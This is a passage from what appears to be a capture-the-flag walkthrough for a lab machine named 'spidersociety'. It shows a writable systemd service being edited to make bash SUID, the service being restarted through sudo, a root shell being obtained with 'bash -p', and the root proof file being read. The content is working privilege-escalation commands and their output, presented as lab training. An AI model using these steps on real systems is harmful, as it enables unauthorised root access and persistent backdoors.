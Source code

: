 - We run find on the service and, by listing its permissions, we found that we are the owner and have write permissions on it
```bash
spidey@spidersociety:~$ find / -name spiderbackup.service 2>/dev/null
/etc/systemd/system/multi-user.target.wants/spiderbackup.service
/etc/systemd/system/spiderbackup.service

spidey@spidersociety:~$ ls -la /etc/systemd/system/spiderbackup.service
-rw-rw-r-- 1 spidey spidey 205 Jun  2 08:40 /etc/systemd/system/spiderbackup.service
```
- Since we have write permissions, we edit the service by adding the instruction we want root to execute—in this case, to convert the bash into SUID.
```bash
spidey@spidersociety:~$ cat /etc/systemd/system/spiderbackup.service
[Unit]
Description=Spider Society Backup Service
After=network.target

[Service]
Type=simple
ExecStart=/usr/bin/bash -c "chmod u+s /usr/bin/bash"
User=root
Group=root

[Install]
WantedBy=multi-user.target
```
- We reload the configuration with systemctl daemon-reload and then execute spiderbackup. When listing bash, we see that it is SUID!
```bash
spidey@spidersociety:~$ sudo -u root /bin/systemctl daemon-reload

spidey@spidersociety:~$ sudo -u root /bin/systemctl restart spiderbackup.service

spidey@spidersociety:~$ ls -l /usr/bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /usr/bin/bash
```
- We became root
```bash
spidey@spidersociety:~$ bash -p
bash-5.2# whoami
root
```
## ROOT FLAG
- We read root's flag
```bash
bash-5.2# whoami && ifconfig && cat /root/proof.txt
root
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.107.214  netmask 255.255.255.0  broadcast 192.168.107.255
        ether 00:50:56:ab:37:99  txqueuelen 1000  (Ethernet)
        RX packets 639356  bytes 315572321 (315.5 MB)
        RX errors 0  dropped 1531  overruns 0  frame 0
        TX packets 448838  bytes 169798493 (169.7 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 3652  bytes 281573 (281.5 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3652  bytes 281573 (281.5 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```